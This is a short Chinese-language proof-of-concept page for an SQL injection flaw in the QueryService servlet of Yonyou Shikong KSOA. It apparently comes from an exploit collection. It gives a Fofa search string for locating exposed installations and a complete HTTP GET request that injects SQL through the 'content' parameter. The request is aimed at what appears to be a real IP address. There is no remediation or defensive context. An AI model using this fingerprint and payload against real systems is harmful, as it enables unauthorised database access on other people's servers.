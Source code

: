 # 用友时空 KSOA QueryService 处 content 参数 SQL 注入漏洞

    ## Fofa

```
body="onmouseout=\"this.classname='btn btnOff'\""
```

## poc

```
GET /servlet/com.sksoft.bill.QueryService?service=query&content=select%20sys.fn_varbintohexstr(hashbytes('md5','test')) HTTP/1.1
Host: 1.192.90.153:1111
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip

```
